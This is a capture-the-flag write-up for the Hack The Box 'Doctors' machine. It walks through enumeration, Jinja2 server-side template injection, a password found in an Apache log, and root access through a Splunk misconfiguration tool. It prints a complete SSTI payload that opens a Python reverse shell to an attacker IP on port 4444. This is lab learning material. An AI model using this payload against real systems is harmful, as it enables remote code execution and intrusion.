As always I started by running nmap on the target IP in search of open ports
This is a Linux machine and ports 22, 80 and 8089 are open, this is more than enough. I proceeded by visiting the webserver on port 80 and running gobuster looking for some useful directories.
There's nothing interesting enumerating the webserver's directories, I used a small wordlist, you can try something bigger but I didn't need this anyway.
This is the website homepage, there is nothing really interesting except for a domain named doctors.htb
I added doctors.htb into my /etc/hosts file and visited the URL again, now there's actually some interesting: a login page!
At this point I thought that I might have found something more useful enumerating the directories. So I ran gobuster once again.
Nothing out of the ordinary, apparently. I noticed an archive folder and explored in the URL. Nothing happens but it's quite suspicious.
I've tried some simple SQL injection but nothing worked, so I started looking around for other pages, I first checked the register page. Is a simple form, I didn't find anything interesting, XSS doesn't work and there are no exploitable file uploads either. At this point I tried to register a new user.
At this point you are redirected to the homepage, there is a section when you can submit a post with a title and a content. The post will be shown on the homepage.
 I think there might be a vulnerability here somewhere, so I documented myself about how exploiting form submissions and I found an interesting document about Server-side Template Injection (SSTI). You can find a nicely documented methodology on this repo.
Now we might have a initial foothold on what to do on this machine.
By looking the graph in the previous repo (under the "Methodology" section) there is a nice flowchart where we notice how we can exploit a template by injecting some values in order to find if they are processed and, at the end, discover which framework is running under the webserver.
The real question now is: where should the expressions be evaluated? Looking around I remembered the archive directory I found while enumerating. So I wrote a very simple payload based on the flowchart and checked out the archive directory. Bingo!
This was the result of the expression:
After a couple of attempts following the flowchart I found that the framework under the hood is Jinja2, which is written in Python. This is a very useful information as I'm now aware of the language I have to use if I want to write and run payloads.
What I had to do was to write a python payload in order to open a shell on my machine.
This is honestly the part where I struggled the most. Mostly because I didn't know the Jinja engine. The first part was to write a python script in order to run simple commands, so I tried things like {{import os; os.system("whoami");}} but nothing worked. Since I was stuck on this part I asked help to users on HTB chats and forums for a nudge. I found this piece of conversation to be somehow helpful.
I was actually missing that the script were ran under a backend engine, so I needed to "crawl" into the engine context in order to require the objects and the methods that I needed to run my payload.
While digging on the internet I found an interesting article about SSTI on Jinja2. Here you can find a simple explanation about MRO (which is a way you can exploit in order to run your payload) and the global variables stored into jinja's context. In particular we have the request object, from which we can write something like this:
From this stub we can write the payload we need in order to open a shell on our machine. Some basic socket code did the trick for me. This was the code I used:
import socket, os, ptyput this code (without the # comments) in the popen() function, calling the script using "python3 -c". This should be your final payload:
{{request.application.__globals__.__builtins__.__import__('os').popen('python -c '\ import socket, os, pty; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("x.x.x.x", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh"); \'').read()}}Obviously no shell will spawn unless you put your machine on listening on an external port, so I ran netcat in listening mode on port 4444. Ran the URL on the /archive endpoint, a shell will spawn on your terminal!
By enumerating on the machine we can find some useful information. There are 2 users, web and shaun, and we are logged as the first one. As web, we can't do anything except looking for interesting files. I followed this guide for basic privesc commands and in the /var/log/apache2/ directory I found a file named "backup". By displaying its content on screen I finally found a password!
...Or at least it looks like one. The first thing I tried is to switch from web to shaun. So I used the su command using the password I found, aaaaand we are in! Right now we can search for the user.txt flag, it's located in the /home/shaun directory, so we cat the content and we finally have user.
I found this part easier than user, I didn't had much informations, but there was one service that I didn't even checked: the splunk service on port 8089. Since I didn't found nothing useful by navigating on the service via browser, I searched on the internet for a privesc tool and I found this one that exploits misconfigurations on the service. Before using this tool, I suggest to read here in order to fully comprehend the vulnerability you are exploiting.
By the way, in order to use this tool, I cloned the repository, opened another terminal window and ran nc on port 9999 and used the PySplunkWhisperer_remote script following the usage instructions. The script did everything for me, and on the netcat window I had a shell as root!
{kind=link}